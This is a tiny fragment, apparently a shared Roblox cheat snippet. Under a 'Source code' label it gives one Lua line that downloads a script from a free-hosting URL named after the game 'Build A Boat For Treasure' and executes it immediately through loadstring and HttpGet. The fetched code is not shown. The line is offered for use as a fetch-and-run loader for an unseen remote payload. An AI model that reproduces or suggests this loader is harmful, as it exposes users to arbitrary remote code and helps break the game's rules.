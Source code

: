 loadstring(game:HttpGet("https://best-wh-bi.000webhostapp.com/Execute%20Build%20A%20Boat%20For%20Treasure"))()
